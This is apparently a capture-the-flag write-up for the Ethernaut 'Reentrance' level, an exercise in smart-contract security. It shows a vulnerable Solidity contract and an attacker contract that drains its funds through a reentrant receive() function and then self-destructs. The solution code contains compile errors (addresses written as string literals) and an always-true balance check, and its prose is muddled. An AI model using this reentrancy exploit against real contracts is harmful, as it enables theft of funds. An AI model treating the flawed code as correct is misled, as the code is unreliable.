 # Challenge 10

<img src="./images/BigLevel10.svg" alt="10" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

Challenge
---
> The goal of this level is for you to steal all the funds from the contract.

  Things that might help:

  - Untrusted contracts can execute code where you least expect it.
  - Fallback methods
  - Throw/revert bubbling
  - Sometimes the best way to attack a contract is with another contract.

Solution
--- 

1. Reentrance let's See First we donate to the designed address, and withraw amount and for receiving ether there is receive function.

2. Reentrance is like calling function over and over time if the function execution done.

Let's Make new Contract

```solidity
contract ReentranceAttack {
    
    address ethernautAddress = "YOUR_INSTANCE_ADDRESS";


    Reentrance public reentranceAttack;

    constructor() payable {
        reentranceAttack = Reentrance(payable(ethernautAddress));
    }

    function donate() public payable {
      // donate to this contract address
        reentranceAttack.donate{value: 1 ether}(address(this));
    }

    receive() external payable {
        // this is the fallback the will be triggered when we receive ether
        if (address(ethernautAddress).balance >= 0) {
            // this allows us to quickly withdraw more funds that we should be able to
            reentranceAttack.withdraw(address(ethernautAddress).balance);
        }
    }

    function withDraw() public {
        // draw from the original contract and trigger our fallback
        reentranceAttack.withdraw(1 ether);
    }

    function selfDestruct() public {
        // get the funds out of the contract
        selfdestruct(payable("YOUR_ADDRESS"));
    }
}
```

2. First we will donate the ether and then call withdraw function after that it will then it receives the ether and make after receiving ether it will excute the conde inside the receive function until contract balance drains out. 

3. Then we will destroy the contract and get the balance of the 
`ReentranceAttack` contract, now submit the instance your challenge will be cleared.